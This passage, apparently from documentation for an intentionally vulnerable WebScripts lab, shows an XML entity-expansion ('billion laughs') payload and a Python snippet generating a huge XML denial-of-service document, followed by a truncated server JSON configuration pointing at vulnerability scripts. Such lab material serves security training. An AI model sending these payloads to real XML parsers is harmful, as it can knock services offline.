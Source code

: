 ```xml
<lolz>&lol9;</lolz>
```

```python
f'''<?xml version="1.0"?>
<!DOCTYPE DoS [
  <!ENTITY x "{'A' * 9999999}">
]>
<DoS>{'&x;' * 9999999}</DoS>'''
```

#### WebScripts Configuration

##### Server

```json
{
    "server": {
        "interface": "127.0.0.1",
        "port": 8000,

        "debug": false,
        "security": true,
        
        "accept_unknow_user": true,
        "accept_unauthenticated_user": true,
        "active_auth": true,
        "auth_script": "auth.py",
        "auth_failures_to_blacklist": 3,
        "blacklist_time": 30,
        "admin_groups": [1000],
        "exclude_auth_paths": ["/static/", "/js/"],
        "exclude_auth_pages": ["/api/", "/auth/", "/web/auth/"],
        "session_max_time": 3600,
        "csrf_max_time": 300,

        "scripts_path": [
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/scripts/vulnerabilities/",
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/scripts/account/"
        ],
        "json_scripts_config": [
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/config/scripts/vulns.json"
        ],
        "ini_scripts_config": [],
        "documentations_path": [],
        "modules": ["error_pages"],
        "modules_path": ["/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/modules/"],
        "js_path": [
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/static/js/*.js"
        ],
        "statics_path": [
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/static/html/*.html", 
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/static/css/*.css", 
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/static/images/*.png", 
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/static/images/*.jpg", 
            "/usr/src/WebScripts/lib/python3.9/site-packages/WebScripts/static/pdf/*.pdf"
        ],

        "log_level": "0",
        "log_filename": "/usr/src/WebScripts/logs/root.logs",
        "log_format": "%(asctime)s %(levelname)s %(message)s (%(funcName)s -> %(filename)s:%(lineno)d)",
        "log_date_format": "%d/%m/%Y %H:%M:%S",
        "log_encoding": "utf-8",

```